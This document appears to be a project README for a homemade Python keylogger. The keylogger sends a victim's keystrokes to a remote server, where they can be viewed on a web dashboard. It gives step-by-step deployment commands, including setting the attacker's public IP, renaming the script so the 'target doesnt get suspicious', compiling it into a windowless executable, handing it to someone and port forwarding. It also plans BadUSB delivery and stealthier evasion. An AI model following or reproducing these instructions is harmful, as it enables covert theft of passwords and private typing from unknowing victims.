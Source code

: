 # Keylogger

A keylogger made to send keystrokes to a remote server for it to then be accessed from a web interface.

There are many things to work on including mainly reliability but I am overall pretty happy with it. Dont expect some kind of crazy UI or functions, this is really bare bones and I made it for the sole purpose of leveling up my python skills. I also found the idea really neat and coudlnt find a good alternative ... so I made my own one.

It all started when I was looking into botnets and how to make my own one, but I quickly found out that the only ones that I had access to (at the time) was BYOB and Covenant. BYOB was outdated, was a pain to set up, didnt work and the comunity also gave up after trying to consult my problem in the discord. Covenant did work really nicely (when setting up) tho it was lacking features BYOB had and didnt work for me. So I decided to start with a keylogger. I (probbably) will make more of these tools like this keylogger and eventually will put it into a one big interface. But that has years to come since i still need to start and finish high school. :/

# Future updates

More reliable and secure connection

Two way interactions (so you can write, modify, send commands to the targets for them to then behave like that (Ex. Stop for 15 min))

Having a BadUSB payload to inject the malware

Better UI (in desperate need please some could help me i am terrible at it)

Improved its under-the-radar ability (windows updated in the future may brick it)



# You will need:

Linux server (RPI2 works well enough)

Central computer (Your personal just for setting up)

Internet connection (Preferably wired)

Ability to port forward (Ik but there isnt a better way rn)

Python 3.12 installed on the server (I will not show how to install python so do it yourself)

 

Optional:

USB flash drive (To load your keylogger onto a target machine physicaly)

USB RubberDucky (Also an option instead of a flash drive)

Third PC (If you can it is recomended to test everything out)   
    
# How to set up:

SSH into your remote server and cd into the home directory

Then clone the project with:

    git clone https://github.com/Gablak/keylogger
    
Cd into keylogger dir:

    cd keylogger

Cd into Client dir:

    cd Client

Edit target.py with nano:

    sudo nano target.py

When in nano scroll down until you see "YOUR IP HERE" and replace it with your public IP address

Then exit nano with
Ctrl + S,
Ctrl + X,
Y,
ENTER

    cd ..
    
    python3.12 installme.py

Wait until all dependencies are finished installing. If it propmts you to update pip or you see some errors just update pip as it tells you and run the script again. If it still gives errors ignore it for now.

    cd Client

Now rename the target.py script so that the target doesnt get suspicious about anything. (Ex: "sysmanager.py")

    mv target.py ANY_NAME_HERE.py

Then compile it into an executable with

    pyinstaller --onefile --windowed SCRIPT_NAME_HERE.py

When finished, the exe file will be in dist directory it created.

    cd dist

With ls we can see if its there:

    ls

Now just give it to someone, run it and their logs wont appear since we havent port forwarded yet. This will work if you are testing it on a local network tho.

Open any browser of your liking and type in your routers local IP address. It should look something like this: 192.168.1.1.

If that leads to nothing just open a windows terminal and type:

    ipconfig

The Default Gateway should be the routers IP.

Navigate yourself somewhere that says WAN, Virtual Server or Port Forward. If you cant find anything i recomend searching online for your router or consult your manual.
If you see an add button click it and a menu will probably show up. The ip will be the local IP address of your server, external and internal port will be 3500. Confirm the settings and save but dont quit yet. Repeat the process again but use the port 4500. If it prompts you for a name you can enter anything, it doesnt matter.
After that save the settings and close and you should be seeing keylogs going in.

Type in your public IP with this ":3500" at the end and you should be navigated into the menu UI.
